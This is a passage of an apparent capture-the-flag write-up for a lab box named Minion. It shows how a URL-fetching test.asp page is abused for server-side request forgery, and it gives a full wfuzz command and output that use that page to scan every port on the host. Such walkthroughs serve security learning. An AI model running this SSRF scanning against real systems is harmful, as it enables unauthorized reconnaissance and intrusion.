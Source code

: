 It finds `/backend`, as well as `default.asp` inside that. `default.asp` is
just the same “Instance not running” message.

There’s also a `test.asp` in the root.

#### test.asp

Visiting `test.asp` returns an error:

![image-20220405082333490](https://0xdfimages.gitlab.io/img/image-20220405082333490.png)

It’s suggesting I need to pass a URL (likely in the `u` parameter). When I try
`test.asp?u=http://10.10.14.6/`, it returns a 500 error:

![image-20220405082506299](https://0xdfimages.gitlab.io/img/image-20220405082506299.png)

This means the server crashed. When I try
`test.asp?u=http://10.10.10.57:62696/`, it returns the Minions site:

![image-20220405082600446](https://0xdfimages.gitlab.io/img/image-20220405082600446.png)

## Shell as defaultapppool

### Blind RCE Via Admin Panel

#### Fuzz for Open Ports

It seems that `test.asp` cannot access pages on my host, but it can load pages
from Minion itself. I’ll use `wfuzz` to try all ports, hiding any 500
responses with `--hc 500`:

    
    
    oxdf@hacky$ wfuzz -u http://10.10.10.57:62696/test.asp?u=http://10.10.10.57:FUZZ/ -z range,1-65535 --hc 500
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.10.57:62696/test.asp?u=http://10.10.10.57:FUZZ/
    Total requests: 65535
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload                                                                
    ===================================================================
    
    000000080:   200        0 L      0 W      0 Ch        "80"
    000005985:   200        0 L      0 W      0 Ch        "5985"
    000047001:   200        0 L      0 W      0 Ch        "47001"
    000062696:   200        13 L     37 W     458 Ch      "62696"
    
    Total time: 7341.232
    Processed Requests: 65535
    Filtered Requests: 65531
    Requests/sec.: 8.926974
    